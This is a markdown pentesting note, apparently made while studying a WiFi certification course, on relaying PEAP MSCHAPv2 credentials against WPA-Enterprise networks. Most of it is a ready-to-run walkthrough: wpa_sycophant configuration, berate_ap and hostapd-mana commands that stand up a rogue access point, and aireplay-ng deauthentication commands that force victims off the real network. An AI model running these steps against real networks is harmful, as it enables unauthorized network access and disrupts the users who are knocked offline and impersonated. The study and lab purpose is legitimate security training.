

# MGT Relay Attack
> [!Note]
> This attack only works against `PEAP MSCHAPv2` networks.

In a relay attack, the attacker captures the credentials sent by a client *and forwards them to a legitimate AP* as if they are the attacker's. In this attack, there is no need to crack the `MSCHAPv2` hash.

To carry out the attack, the attacker creates a *malicious AP* and waits for a client to connect. Once they connect, the attacker uses their auth information to initiate a connection with the real AP. 

When the attacker initiates the connection with the AP using the victim's information, the AP responds with *the challenge meant for the legitimate client*. The attacker then forwards the challenge to the client, who *responds with their password* and generates the correct response to the challenge. The client then sends the correct response to the attacker, who then forwards it to the legit AP.

By the end of the attack, the attacker is authenticated to the legitimate AP while the client is connected to the attacker:

## Attack Steps
To perform a relay attack, you need two tools:
- [`wpa_sycophant`](https://github.com/sensepost/wpa_sycophant)
- [`berate_ap`](https://github.com/sensepost/berate_ap)
Both tools work together to handle all of the relaying.
### `wpa_sycophant` & `berate_ap`
#### 1. Configure `wpa_sycophant`
`wpa_sycophant` will be the program *connecting to the real AP* to obtain info from the legit client. When running `wpa_sycophant`, you'll use the `-c` flag to pass the configuration file:
```bash
network={
  ssid="$ESSID"
  ## The SSID you would like to relay and authenticate against.
  scan_ssid=1
  key_mgmt=WPA-EAP
  ## Do not modify
  identity=""
  anonymous_identity=""
  password=""
  ## This initialises the variables for me.
  ## -------------
  eap=PEAP
  phase1="crypto_binding=0 peaplabel=0"
  phase2="auth=MSCHAPV2"
  ## Dont want to connect back to ourselves,
  ## so add your rogue BSSID here.
  bssid_blacklist=$BSSID_AP
}
```
- `ssid`: the name of the network you want to connect to
- `bssid_blacklist`: the [MAC address](../../networking/OSI/2-datalink/MAC-addresses.md) of the *antenna used to create your fake AP*. This will blacklist your fake AP so you don't *accidentally connect to it*
#### 2. Run `wpa_sycophant`
Once your config file is ready, run `wpa_sycophant` with the following command:
```bash
cd ~/tools/wpa_sycophant/
./wpa_sycophant.sh -c wpa_sycophant_example.conf -i wlan3
```
#### 3. Run `berate_ap` 
Once `wpa_sycophant` is running, use `berate_ap` to bring up your fake AP. You will have to do this in a different shell (or tmux pane):
```bash
cd ~/tools/berate_ap/
./berate_ap --eap --mana-wpe --wpa-sycophant --mana-credout outputMana.log wlan1 lo $ESSID
```
- `wpa_sycophant`: enables synchronization b/w `wpa_sycophant`
- `wlan1`: the interface to use as the fake AP
- `lo`: the interface used as the *bridge for connecting clients to the AP*. To ensure clients *have access to the internet*, you need to use an interface connected to the internet (we're using `lo` here which is the [loopback](../../networking/routing/loopback.md) interface)
- `$ESSID`: the name of the network to impersonate

When you start `berate_ap` it will ask for the *certificate fields* to generate. This will be based on your *previous [recon](recon.md)* of the target network.
#### 4. Execute the Deauth Attack
Now, in a third terminal/shell we need to run a [Deauth attack](../PSK-attacks/handshake-attack.md#2.1%20Force%20traffic) against the client to disconnect them from the real AP and force them to connect to ours:
```bash
airmon-ng start wlan0
iwconfig wlan0mon channel $CHANNEL
aireplay-ng -0 0 wlan0mon -a $BSSID -c $MAC_CLIENT
```
- `$CHANNEL`: channel of the real AP
- `$BSSID`: MAC address of the AP to attack
- `$MAC_CLIENT`: MAC of the client to deauth
#### 5. Check for Captured Hashes
If the everything worked, you should see some captured `EAP-MSCHAPV2` hashes in the `berate_ap` output:

### `wpa_sycophant` & `hostapd-mana`
You can also perform this attack with `hostapd-mana`. It's done very similarly to the last section, but uses a *modified version of `hostapd-mana`* which performs the attack *without relay*.
#### 1. Modify the `hostapd-mana` config file
The config file for `hostapd-mana` will be very similar to the one we use for a [rogue-AP](rogue-AP.md) attack. The only difference is enabling the `enable_sycophant` line and the `sycophant_dir` line:
```bash
...
enable_sycophant=1
sycophant_dir=/tmp/
```
#### 2. Configure `wpa_sycophant`
We'll use `wpa_sycophant` to connect to the real AP and obtain info from the legitimate client (just like last time):
```bash
network={
  ssid="$ESSID"
  ## The SSID you would like to relay and authenticate against.
  scan_ssid=1
  key_mgmt=WPA-EAP
  ## Do not modify
  identity=""
  anonymous_identity=""
  password=""
  ## This initialises the variables for me.
  ## -------------
  eap=PEAP
  phase1="crypto_binding=0 peaplabel=0"
  phase2="auth=MSCHAPV2"
  ## Dont want to connect back to ourselves,
  ## so add your rogue BSSID here.
  bssid_blacklist=$BSSID_AP
}
```
- `ssid`: the name of the network you want to connect to
- `bssid_blacklist`: the [MAC address](../../networking/OSI/2-datalink/MAC-addresses.md) of the *antenna used to create your fake AP*. This will blacklist your fake AP so you don't *accidentally connect to it*
#### 3. Run `wpa_supplicant`
```bash
cd ~/tools/wpa_sycophant/
./wpa_sycophant.sh -c wpa_sycophant_example.conf -i wlan3
```
#### 4. Run `hostapd-man`
In a second shell, run `hostapd-mana`:
```bash
sudo hostapd-mana mana.conf
```
#### 5. Run the deauth attack
In a third shell, perform the deauth attack against the client you want to connect to your malicious AP:
```bash
airmon-ng start wlan0
iwconfig wlan0mon channel $CHANNEL
aireplay-ng -0 0 wlan0mon -a $BSSID -c $MAC_CLIENT
```


> [!Resources]
> - [`wpa_sycophant`](https://github.com/sensepost/wpa_sycophant)
> - [`berate_ap`](https://github.com/sensepost/berate_ap)
> - [Wifi Challenge Academy](https://academy.wifichallenge.com/courses/take/certified-wifichallenge-professional-cwp/texts/57442980-introduction)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.